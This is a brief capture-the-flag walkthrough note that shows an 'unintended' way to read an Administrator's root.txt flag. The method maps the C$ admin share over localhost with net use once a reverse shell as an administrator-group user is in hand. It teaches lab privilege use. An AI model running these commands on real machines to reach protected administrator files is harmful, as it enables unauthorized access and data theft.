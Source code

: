 # Unintended way to get root.txt

After getting a reverse shell with Batman and we know he is a member of Administrators we can just do the following:

```markdown
net use Z:\\127.0.0.1\c$
cd Z:
type C:\Users\Administrator\Desktop\root.txt
```
